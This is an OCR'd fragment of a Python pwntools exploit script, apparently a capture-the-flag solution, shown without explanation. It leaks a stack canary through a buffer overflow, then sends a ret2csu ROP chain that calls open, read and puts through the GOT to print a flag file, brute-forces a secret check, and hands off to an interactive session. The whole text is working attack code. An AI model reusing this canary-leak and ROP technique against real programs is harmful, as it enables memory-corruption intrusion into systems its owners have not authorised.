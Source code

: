 	write_code('a','n')
	for i in range(2):
		sla('...\n','a')
		sla('y/n\n','n')
	sla('...\n','a')
	sla('y/n\n','y')
	
	leak_canary('a'*(0xa9))
	ru('a'*0xa9)
	canary = u64('\x00' + rv(7))
	lg('canary',canary)

	payload = p64(0) + p64(canary) + p64(0) + p64(init1)
	payload += p64(0) + p64(1) + p64(open_got) + p64(0) + p64(0) + p64(flag_path)
	payload += p64(init2) + p64(0)*7
	payload += p64(init1)
	payload += p64(0) + p64(1) + p64(read_got) + p64(0x100) + p64(write_addr) + p64(0) 
	payload += p64(init2) + p64(0)*7
	payload += p64(init1)
	payload += p64(0) + p64(1) + p64(puts_got) + p64(0) + p64(0) + p64(write_addr)
	payload += p64(init2) + p64(0)*7
	payload += p64(0)
	payload = payload.ljust(0x200,'\x00')
	payload += 'flag\0'
	write_code(payload,'y')

	for i in range(1022):
		guess_secret('\x00'*8)
	
	# ru('mouth...\n')
	# puts_addr = u64(rv(6).ljust(8,'\x00'))
	# libc.address = puts_addr - libc.symbols['puts']
	# system_addr = libc.symbols['system']
	# lg('system',system_addr)

	#sa('code:','\x00'*8)

	p.interactive()
hack()
</pre>
